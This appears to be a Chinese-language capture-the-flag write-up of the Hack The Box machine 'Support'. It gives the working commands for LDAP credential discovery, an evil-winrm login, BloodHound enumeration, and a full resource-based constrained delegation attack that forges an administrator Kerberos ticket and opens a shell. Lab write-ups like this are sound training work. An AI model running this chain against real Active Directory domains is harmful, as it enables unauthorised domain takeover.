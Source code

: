 +++
title = '0X016 Support'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'HTB'
+++



# 端口扫描

![](/htb_img/WEBRESOURCE5210351ecaab4ed72e1b4bf8ee75765d截图.png)

![](/htb_img/WEBRESOURCEed69e887f32981ad919d9524cb6f0090截图.png)

# 渗透测试

没有开放HTTP协议，主要是通过域内渗透方式进行

SMB匿名登录：

![](/htb_img/WEBRESOURCEbff327d0f4c284b632ee844164d0370b截图.png)

![](/htb_img/WEBRESOURCE88308eb72b82e88e52dc73b8cbf33134截图.png)

这出现一个问题，不知到为啥，抓包看不到程序的发包

![](/htb_img/WEBRESOURCEb07edaf8d168cda964765ef93f596c6e截图.png)

主要考点：LDAP 轻量目录访问协议，理解上更像是一个树状图

ldapsearch似乎-h与-p结合的使用方式被停用了？，帮助里面没看到这个用法，只能用-H了，

-x使用简单认证

-D用户名

-w密码

-W交互式输入密码

-b指定basedn查询，分辨名，唯一标识，根

```
ldapsearch -H ldap://10.10.11.174 -D ldap@support.htb -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb" "*"
```

![](/htb_img/WEBRESOURCE8fea50f5a65115346894cbd65d4dd4df截图.png)

发现密码，这里可以使用crackmapexec进行探测，这是一个用户内网渗透的探测工具：

![](/htb_img/WEBRESOURCE7907cef0313332cde4376717d6f59cec截图.png)

evil-winrm工具是 Winrm 服务利用工具，需要合法用户身份信息，使用5985端口连接：

```
evil-winrm -u support -p Ironside47pleasure40Watchful -i 10.10.11.174
```

![](/htb_img/WEBRESOURCE58222552f72ea8805bbf63f007591aec截图.png)

查看flag

![](/htb_img/WEBRESOURCEa8e93bca57d16f39f255af6e70fb5c09截图.png)

# 提权

BloodHound是一款用于域分析的强大工具，它可以帮助安全专业人员识别和分析Active Directory（AD）环境中的攻击路径和权限问题。本文将介绍BloodHound的基本概念，并提供一些使用BloodHound进行域分析的编程实例。

BloodHound的使用：

启动：

```
1、开启neo4j数据库：
neo4j start
访问本地的7474端口即可看到web页面，默认账密：neo4j，第一次使用需要修改密码
2、kali启动BloodHound：
./BloodHound --no-sandbox
```

离线脚本使用：

```
1、上传windows版本的脚本，存放在以下路径：
BloodHound-linux-x64/resources/app/Collectors
2、运行即可
SharpHound.exe -c all
```

玩了半天终于玩儿明白了，原来人家回自动分析路径：

![](/htb_img/WEBRESOURCE5b4f95d646769f2b0e55d384e6720c30截图.png)

这里建议使基于资源的约束型委派进行攻击，下面为必要工具的介绍：

Powermad.ps1是一个专门拿来利用机器账户和DNS的漏洞利用工具，在基于资源的约束型委派中用来创建机器账户：

[https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)

PowerView.ps1是一个

[https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

Rubeus.exe是一个用于kerberos交互的工具：

这个工具版本比较多，这里用的是[https://github.com/r3motecontrol/Ghostpack-CompiledBinaries](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

# 基于资源的约束型委派流程如下：


```
一、导入模块：
Import-Module ./Powermad.ps1
或者
. ./Powermad.ps1
二、添加机器账户，基于资源的约束型委派需要：
Set-Variable -Name "FakePC" -Value "FAKE01"  # FAKE01这个名字可以自己改
Set-Variable -Name "targetComputer" -Value "DC"
New-MachineAccount -MachineAccount (Get-Variable -Name "FakePC").Value -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
三、设置权限
Set-ADComputer (Get-Variable -Name "targetComputer").Value -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "FakePC").Value + '$')
四、生成hash
./Rubeus.exe hash /password:123456 /user:FAKE01$ /domain:support.htb
五、利用hash申请票据
添加hosts文件
echo "10.10.11.174 support.htb" >> /etc/hosts
echo "10.10.11.174 dc.support.htb" >> /etc/hosts
生成TGT票据，以administrator的身份申请一张访问http/dc.support.htb服务的票据
python3 getST.py support.htb/FAKE01 -dc-ip dc.support.htb -impersonate administrator -spn http/dc.support.htb -aesKey 35CE465C01BC1577DE3410452165E5244779C17B64E6D89459C1EC3C8DAA362B
六、连接
添加票据
export KRB5CCNAME=administrator.ccache
smbexec.py support.htb/administrator@dc.support.htb -no-pass -k
```

![](/htb_img/WEBRESOURCE0174ceeddf8e6fced5547680212b3a9a截图.png)

![](/htb_img/WEBRESOURCE1d0b1b97bb10fab3f753ee041f05d5f6截图.png)

记得给sudo权限：

![](/htb_img/WEBRESOURCE38c9c9cd98e6cb74f3c27b8f28ab0b74截图.png)

![](/htb_img/WEBRESOURCE8c4f89dd6bf3858148010d2d279bf70b截图.png)